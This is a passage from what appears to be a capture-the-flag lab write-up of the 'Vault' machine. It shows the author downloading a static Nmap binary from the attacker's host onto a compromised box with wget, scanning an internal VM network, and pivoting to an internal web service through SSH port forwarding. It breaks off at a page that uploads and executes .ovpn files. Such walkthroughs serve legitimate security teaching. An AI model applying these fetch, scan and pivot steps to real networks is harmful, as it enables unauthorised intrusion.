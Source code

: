 ## Enumerating the Network

As we found out, this box is the host for virtual machines. The interface _virbr0_ is a bridge with the IP _192.168.122.1_ and as the _Servers_ file showed, that is the network with the _"The Vault"_.

The IP address of _"The Vault"_ is not shown, so this network should be enumerated by uploading a [static Nmap binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap) onto this box to scan for services:
```markdown
wget 10.10.14.8/static_nmap

chmod +x nmap
```

Scanning _192.168.122.0/24_:
```markdown
./static_nmap 192.168.122.0/24
```
```markdown
Nmap scan report for 192.168.122.1
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http

Nmap scan report for 192.168.122.4
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap scan report for 192.168.122.5
All 1205 scanned ports on 192.168.122.5 are closed
```

To get to the HTTP services, we need to pivot through this box into that network by using **SSH Port Forwarding**.
This [SSH mode](https://www.sans.org/blog/using-the-ssh-konami-code-ssh-control-sequences/) can be activated by pressing _"Alt + ~"_ and then _"Shift + C"_.
```markdown
ssh> -L 8001:192.168.122.4:80
```

The HTTP service of 192.168.122.4 is now accessible on my localhost on port 8001:

![Web page on 192.168.122.4](https://kyuu-ji.github.io/htb-write-up/vault/vault_web-3.png)

### Checking HTTP (Port 80) on 192.168.122.4

The first option _"Click here to modify your DNS Settings"_ forwards to _/dns-config.php_ but results in a _404 Not Found_.

The second option _"Click here to test your VPN Configuration"_ forwards to _/vpnconfig.php_ and is a feature to upload and execute a **.ovpn** file:
